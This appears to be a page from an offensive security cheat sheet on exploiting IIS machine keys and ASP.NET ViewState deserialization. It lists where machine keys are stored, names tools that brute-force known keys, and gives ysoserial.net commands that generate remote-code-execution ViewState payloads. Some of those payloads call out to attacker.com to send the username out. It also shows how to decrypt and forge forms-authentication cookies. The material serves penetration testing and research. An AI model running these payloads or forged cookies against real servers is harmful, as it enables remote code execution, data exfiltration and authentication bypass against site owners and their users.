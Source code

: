 # IIS Machine Keys

> That machine key is used for encryption and decryption of forms authentication cookie data and view-state data, and for verification of out-of-process session state identification.

**Requirements**

* `__VIEWSTATE`
* `__VIEWSTATEGENERATOR`* 


## Viewstate Format

ViewState in IIS is a technique used to retain the state of web controls between postbacks in ASP.NET applications. It stores data in a hidden field on the page, allowing the page to maintain user input and other state information.

| Format | Properties |
| --- | --- |
| Base64 | `EnableViewStateMac=False`,  `ViewStateEncryptionMode=False` |
| Base64 + MAC | `EnableViewStateMac=True` |
| Base64 + Encrypted | `ViewStateEncryptionMode=True` |

By default until Sept 2014, the `enableViewStateMac` property was to set to `False`.
Usually unencrypted viewstate are starting with the string `/wEP`.


## Machine Key Format and Locations

A machineKey in IIS is a configuration element in ASP.NET that specifies cryptographic keys and algorithms used for encrypting and validating data, such as view state and forms authentication tokens. It ensures consistency and security across web applications, especially in web farm environments. 

The format of a machineKey is the following.

```xml
<machineKey validationKey="[String]"  decryptionKey="[String]" validation="[SHA1 (default) | MD5 | 3DES | AES | HMACSHA256 | HMACSHA384 | HMACSHA512 | alg:algorithm_name]"  decryption="[Auto (default) | DES | 3DES | AES | alg:algorithm_name]" />
```

The `validationKey` attribute specifies a hexadecimal string used to validate data, ensuring it hasn't been tampered with. 

The `decryptionKey` attribute provides a hexadecimal string used to encrypt and decrypt sensitive data. 

The `validation` attribute defines the algorithm used for data validation, with options like SHA1, MD5, 3DES, AES, and HMACSHA256, among others. 

The `decryption` attribute specifies the encryption algorithm, with options like Auto, DES, 3DES, and AES, or you can specify a custom algorithm using alg:algorithm_name.

The following example of a machineKey is from Microsoft documentation (https://docs.microsoft.com/en-us/iis/troubleshoot/security-issues/troubleshooting-forms-authentication).

```xml
<machineKey validationKey="87AC8F432C8DB844A4EFD024301AC1AB5808BEE9D1870689B63794D33EE3B55CDB315BB480721A107187561F388C6BEF5B623BF31E2E725FC3F3F71A32BA5DFC" decryptionKey="E001A307CCC8B1ADEA2C55B1246CDCFE8579576997FF92E7" validation="SHA1" />
```

Common locations of **web.config** / **machine.config**

* 32-bits
    * `C:\Windows\Microsoft.NET\Framework\v2.0.50727\config\machine.config`
    * `C:\Windows\Microsoft.NET\Framework\v4.0.30319\config\machine.config`
* 64-bits
    * `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\config\machine.config`
    * `C:\Windows\Microsoft.NET\Framework64\v2.0.50727\config\machine.config`
* in the registry when **AutoGenerate** is enabled (extract with https://gist.github.com/irsdl/36e78f62b98f879ba36f72ce4fda73ab)
    * `HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\4.0.30319.0\AutoGenKeyV4`  
    * `HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\2.0.50727.0\AutoGenKey`


## Identify known machine key

Try multiple machine keys from known products, Microsoft documentation, or other part of the Internet.

* [isclayton/viewstalker](https://github.com/isclayton/viewstalker)

    ```powershell
    ./viewstalker --viewstate /wEPD...TYQ== -m 3E92B2D6 -M ./MachineKeys2.txt
    ____   ____.__                       __         .__   __
    \   \ /   /|__| ______  _  _________/  |______  |  | |  | __ ___________ 
    \   Y   / |  |/ __ \ \/ \/ /  ___/\   __\__  \ |  | |  |/ // __ \_  __ \
    \     /  |  \  ___/\     /\___ \  |  |  / __ \|  |_|    <\  ___/|  | \/
    \___/   |__|\___  >\/\_//____  > |__| (____  /____/__|_ \\___  >__|   
                    \/           \/            \/          \/    \/       

    KEY FOUND!!!
    Host:   
    Validation Key: XXXXX,XXXXX
    ```

* [blacklanternsecurity/badsecrets](https://github.com/blacklanternsecurity/badsecrets)

    ```ps1
    python examples/blacklist3r.py --viewstate /wEPDwUK...j81TYQ== --generator 3E92B2D6
    Matching MachineKeys found!
    validationKey: C50B3C89CB21F4F1422FF158A5B42D0E8DB8CB5CDA1742572A487D9401E3400267682B202B746511891C1BAF47F8D25C07F6C39A104696DB51F17C529AD3CABE validationAlgo: SHA1
    ```

* [NotSoSecure/Blacklist3r](https://github.com/NotSoSecure/Blacklist3r)

    ```powershell
    AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --macdecode --legacy
    ```

* [0xacb/viewgen](https://github.com/0xacb/viewgen)

    ```powershell
    $ viewgen --guess "/wEPDwUKMTYyOD...WRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
    [+] ViewState is not encrypted
    [+] Signature algorithm: SHA1
    ```

List of interesting machine keys to use:

* [NotSoSecure/Blacklist3r/MachineKeys.txt](https://github.com/NotSoSecure/Blacklist3r/raw/f10304bc90efaca56676362a981d93cc312d9087/MachineKey/AspDotNetWrapper/AspDotNetWrapper/Resource/MachineKeys.txt)
* [isclayton/viewstalker/MachineKeys2.txt](https://raw.githubusercontent.com/isclayton/viewstalker/main/MachineKeys2.txt)
* [blacklanternsecurity/badsecrets/aspnet_machinekeys.txt](https://raw.githubusercontent.com/blacklanternsecurity/badsecrets/dev/badsecrets/resources/aspnet_machinekeys.txt)


## Decode ViewState

* [BApp Store > ViewState Editor](https://portswigger.net/bappstore/ba17d9fb487448b48368c22cb70048dc) - ViewState Editor is an extension that allows you to view and edit the structure and contents of V1.1 and V2.0 ASP view state data.
* [0xacb/viewgen](https://github.com/0xacb/viewgen)
    ```powershell
    $ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
    ```


## Generate ViewState for RCE

First you need to decode the Viewstate to know if the MAC and the encryption are enabled. 

### MAC is not enabled

```ps1
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/:UserName"
```


### MAC is enabled and Encryption is disabled

* Find the machine key (validationkey) using `badsecrets`, `viewstalker`, `AspDotNetWrapper.exe` or `viewgen` 
    ```ps1
    AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --macdecode --legacy
    # --modifier = `__VIEWSTATEGENERATOR` parameter value
    # --encrypteddata = `__VIEWSTATE` parameter value of the target application
    ```

* Then generate a ViewState using [pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net), both `TextFormattingRunProperties` and `TypeConfuseDelegate` gadgets can be used.
    ```ps1
    .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
    .\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "powershell.exe -c nslookup http://attacker.com" --generator=3E92B2D6 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

    # --generator = `__VIEWSTATEGENERATOR` parameter value
    # --validationkey = validation key from the previous command
    ```


### MAC is enabled and Encryption is enabled

Default validation algorithm is `HMACSHA256` and the default decryption algorithm is `AES`.

If the `__VIEWSTATEGENERATOR` is missing but the application uses .NET Framework version 4.0 or below, you can use the root of the app (e.g: `--apppath="/testaspx/"`). 

* **.NET Framework < 4.5**, ASP.NET always accepts an unencrypted `__VIEWSTATE` if you remove the `__VIEWSTATEENCRYPTED` parameter from the request
    ```ps1
    .\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\windows\temp\test.txt" --apppath="/testaspx/" --islegacy --validationalg="SHA1" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0" --isdebug
    ```

* **.NET Framework > 4.5**, the machineKey has the property: `compatibilityMode="Framework45"`
    ```ps1
    .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo 123 > c:\windows\temp\test.txt" --path="/somepath/testaspx/test.aspx" --apppath="/testaspx/" --decryptionalg="AES" --decryptionkey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" --validationalg="HMACSHA256" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
    ```


## Edit cookies with the machine key

If you have the `machineKey` but the viewstate is disabled.

ASP.net Forms Authentication Cookies : https://github.com/liquidsec/aspnetCryptTools

```powershell
# decrypt cookie
$ AspDotNetWrapper.exe --keypath C:\MachineKey.txt --cookie XXXXXXX_XXXXX-XXXXX --decrypt --purpose=owin.cookie --valalgo=hmacsha512 --decalgo=aes

# encrypt cookie (edit Decrypted.txt)
$ AspDotNetWrapper.exe --decryptDataFilePath C:\DecryptedText.txt
```


## References

* [Exploiting Deserialisation in ASP.NET via ViewState - Soroush Dalili - April 23, 2019](https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
* [Exploiting ViewState Deserialization using Blacklist3r and YSoSerial.Net - claranet - 13/06/2019](https://www.claranet.com/us/blog/2019-06-13-exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserialnet)
* [View State, The unpatchable IIS forever day being actively exploited - zeroed.tech - 21-7-2024](https://zeroed.tech/blog/viewstate-the-unpatchable-iis-forever-day-being-actively-exploited/)
* [Project Blacklist3r - November 23, 2018 - @notsosecure](https://www.notsosecure.com/project-blacklist3r/)
* [Deep Dive into .NET ViewState deserialization and its exploitation - Swapneil Kumar Dash - Oct 22, 2019](https://swapneildash.medium.com/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817)
